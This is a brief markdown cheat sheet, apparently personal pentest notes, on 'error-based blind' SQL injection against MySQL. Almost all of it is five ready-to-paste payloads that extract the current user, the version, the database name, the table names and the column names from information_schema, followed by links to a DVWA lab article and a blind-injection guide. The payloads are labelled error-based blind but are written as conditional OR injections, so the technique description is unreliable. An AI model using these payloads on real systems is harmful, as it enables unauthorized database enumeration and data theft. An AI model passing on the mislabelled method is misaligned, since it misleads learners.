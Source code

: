 # Error-Based Blind Query SQL Injection

TODO: Prepare with enumeration

1. Extract the current user:

```sql
' OR IF(1=1, (SELECT user()), 0)#
```

2. Extract the database version:

```sql
' OR IF(1=1, (SELECT @@version), 0)#
```

3. Extract the current database name:

```sql
' OR IF(1=1, (SELECT database()), 0)#
```

4. Extract tables from the current database:

```sql
' OR IF(1=1, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), 0)#
```

5. Extract columns from a specific table:

```sql
' OR IF(1=1, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='<table_name>'), 0)#
```

## References

- [SQL Injection (Blind) [DVWA]](https://www.linkedin.com/pulse/sql-injection-blind-dvwa-nguyen-nguyen/)

- [Blind SQL Injection: An Expert’s Guide to Detect and Exploit](https://www.stationx.net/blind-sql-injection/)